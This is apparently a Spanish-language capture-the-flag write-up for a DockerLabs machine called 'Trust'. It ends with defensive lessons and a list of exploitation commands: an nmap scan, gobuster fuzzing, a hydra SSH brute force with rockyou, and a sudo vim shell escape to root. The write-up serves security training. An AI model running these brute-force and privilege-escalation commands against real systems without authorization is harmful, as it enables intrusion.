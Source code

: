 
**Herramientas Utilizadas**:
- `nmap` - Escaneo de puertos y servicios
- `gobuster` - Fuzzing de directorios web
- `hydra` - Fuerza bruta SSH
- `ssh` - Conexión remota
- `vim` - Editor para escalada de privilegios

**Referencias**:
- [GTFOBins - Vim Sudo Exploitation](https://gtfobins.github.io/gtfobins/vim/#sudo)
- [Hydra SSH Brute Force](https://github.com/vanhauser-thc/thc-hydra)
- [Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

**Tags**: `#DOCKERLABS #Trust #SSH #Hydra #Vim #Sudo #PrivEsc #Docker`

---

## **Lecciones Aprendidas**

### 📋 **Para Pentesters**:
- La enumeración web puede revelar información crítica
- Las contraseñas débiles son vectores comunes de ataque
- Los editores con permisos sudo son riesgos de seguridad significativos

### 🎯 **Para Administradores**:
- Revisar regularmente los permisos sudo de los usuarios
- Implementar autenticación de dos factores para SSH
- Realizar auditorías periódicas de archivos expuestos

## **Comandos Críticos de Explotación**

### Reconocimiento
```bash
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.18.0.2
```

### Enumeración Web
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://172.18.0.2 -x .php,.sh,.py,.txt
```

### Fuerza Bruta SSH
```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -vV -f -t 4 ssh://172.18.0.2
```

### Escalada de Privilegios
```bash
sudo /usr/bin/vim -c ':! /bin/sh'
```

### Búsqueda de Flags
```bash
find / -name user.txt -o -name root.txt 2>/dev/null | xargs cat
```
